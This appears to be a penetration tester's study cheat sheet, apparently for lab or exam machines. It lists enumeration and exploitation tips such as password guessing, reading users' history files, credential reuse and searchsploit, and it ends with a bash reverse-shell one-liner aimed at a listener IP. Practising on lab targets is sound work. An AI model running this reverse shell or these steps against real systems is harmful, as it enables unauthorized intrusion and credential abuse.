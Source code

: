 ## DO NOT GET OVERWHELMED

- INSPECT THE SOURCE CODE FOR ANY HINTS
- ALWAYS TRY USERNAME:USERNAME as password tries
- ALWAYS DO A UDP SCAN
- look at the modified date for files of interest. If there’s anything that has a sus looking nature but it was modified last on what I suspect is the install date of the application/OS then I move on but when I see a bunch of files and folders and one random file has been modified way later than the others; that usually indicates smth. In this case using that same through process and what I mentioned above; I had context clues as to why that file might be what I need
- IF YOU HAVE TOO MUCH DATA, NOTE IT DOWN THE PORTS AND DO STEP BY STEP
- ONCE YOU FIND A CREDENTIAL, TRY EACH AND EVERY POSSIBLE WAY TO USE IT
- IF YOU FIND SOME FILES with ftp, AND THEY GIVE USERNAMES NOTE IT
- BEWARE OF RABBIT HOLES
- IF U CANNOT GET THE SHELL BACK, TRY USING PORT 80, OR ANY OF THE OPEN PORTS OF THE TARGET
- READ USER'S HISTORY FILE IF PRESENT
- IF NC SHELL DOESNT WORK TRY /BIN/BASH OR /BASH
- CHECK EXPLOITS CAREFULLY, IF IT ISN WOKRING FIND OTHER
- SEARCH ON SEARCHSPLOIT
- 


```
bin/bash -i >& /dev/tcp/192.168.45.163/443 0>&1
```